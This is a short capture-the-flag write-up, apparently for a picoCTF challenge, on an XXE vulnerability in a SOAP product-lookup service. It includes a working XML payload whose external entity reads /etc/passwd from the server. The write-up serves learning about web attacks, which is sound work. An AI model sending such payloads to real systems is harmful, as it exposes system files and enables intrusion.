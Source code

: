 # XXE in SOAP (picoCTF-XXE0)

> An application using SOAP to fetch some details about their products was vulnerable to XXE attack. Expolited that vulnerability by creating an external entity that resolves to the contents of /etc/passwd file and got the flag

**Original SOAP message**
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <data>
    <ID>3</ID>
</data>
```

**Payload** 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data><ID>&example;</ID></data>
```
